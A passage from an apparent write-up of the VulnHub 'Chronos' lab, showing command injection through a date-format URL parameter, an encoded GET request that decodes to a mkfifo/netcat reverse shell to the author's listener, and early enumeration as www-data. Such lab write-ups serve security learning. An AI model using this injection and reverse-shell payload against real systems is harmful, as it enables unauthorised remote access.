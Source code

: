 {% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/chronos]
└─# date '+Something is %F, %F %F, %Y %H:%M:%S';id
Something is 2021-08-15, 2021-08-15 2021-08-15, 2021 01:09:01
uid=0(root) gid=0(root) groups=0(root),142(kaboxer)
{% endhighlight %}

Hopefully this will work. I try a ping first, and it does work. Next I try a reverse shell. The simplest bash revshell won't work, but another will:

{% highlight shell %}
GET /date?format=6RtvYvanV3nT5HFqNKoSMqkTfe1waFA8kjKVHiFLr6ut33nCCH3aGb948oWpFytf1R5g6oMpV9pTGQHTaLsSUCpeSTbFanYJyHyWFJxnMBWKkHikCWG62M1BQPijsfYDeWtTvrgKteGHrA3Dptff4ycfFTbrRE11SQgm HTTP/1.1
{% endhighlight %}

This decodes to:

``
'+Something is %F, %F %F, %Y %H:%M:%S.';rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.210 1234 >/tmp/f
``

And we are on the box:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/chronos]
└─# nc -nvlp 1234                                                                                           
listening on [any] 1234 ...
connect to [192.168.1.210] from (UNKNOWN) [192.168.1.85] 36584
/bin/sh: 0: cant access tty; job control turned off
$ id;hostname;date
uid=33(www-data) gid=33(www-data) groups=33(www-data)
chronos
Sun Aug 15 05:12:00 UTC 2021
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@chronos:/opt/chronos$ pwd
pwd
/opt/chronos
www-data@chronos:/opt/chronos$
{% endhighlight %}

We don't have to look far for the next step:

{% highlight shell %}
www-data@chronos:/opt/chronos$ ls -lash /opt
ls -lash /opt
total 16K
4.0K drwxr-xr-x  4 root     root     4.0K Jul 30 07:50 .
4.0K drwxr-xr-x 23 root     root     4.0K Aug 11 10:35 ..
4.0K drwxr-xr-x  3 www-data www-data 4.0K Aug  3 20:11 chronos
4.0K drwxr-xr-x  4 root     root     4.0K Aug  3 19:40 chronos-v2
{% endhighlight %}

We have a chronos-v2. If we look inside we can find server.js, and find out that it is running internally:
